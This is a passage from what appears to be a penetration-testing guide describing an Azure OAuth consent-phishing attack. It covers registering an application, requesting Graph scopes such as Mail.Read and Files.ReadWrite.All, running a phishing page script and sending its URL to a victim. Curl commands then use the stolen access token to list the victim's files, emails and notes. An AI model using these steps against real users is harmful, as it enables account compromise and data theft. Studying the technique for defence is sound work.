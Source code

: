 ## Example Attack

1. Register a **new application**. It can be only for the current directory if you are using an user from the attacked directory or for any directory if this is an external attack (like in the following image).
   1. Also set the **redirect URI** to the expected URL where you want to receive the code to the get tokens (`http://localhost:8000/callback` by default).

![](../../../images/image (1).png)

2. Then create an application secret:

![](../../../images/image (2).png)

3. Select API permissions (e.g. `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read)`

![](../../../images/image (3).png)

>[!WARNING]
> It's also possibel to request permissions to other APIs that are not Graph API, like `Azure Service Management API`, `Azure Vault`, `Azure Storage`, etc. For example, the scope `https://management.azure.com/user_impersonation` will allow the application to access the Azure Management API on behalf of the user.

4. **Execute the web page (**[**azure_oauth_phishing_example**](https://github.com/carlospolop/azure_oauth_phishing_example)**)** that asks for the permissions:

```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```

5. **Send the URL to the victim**
   1. In this case `http://localhost:8000`
6. **Victims** needs to **accept the prompt:**

![](../../../images/image (4).png)

7. Use the **access token to access the requested permissions**:

```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
  https://graph.microsoft.com/v1.0/me/drive/root/children \
  -H "Authorization: Bearer $ACCESS_TOKEN" \
  -H "Accept: application/json"

# List eails
curl -X GET \
  https://graph.microsoft.com/v1.0/me/messages \
  -H "Authorization: Bearer $ACCESS_TOKEN" \
  -H "Accept: application/json"

# List notes
curl -X GET \
  https://graph.microsoft.com/v1.0/me/onenote/notebooks \
  -H "Authorization: Bearer $ACCESS_TOKEN" \
  -H "Accept: application/json"
```
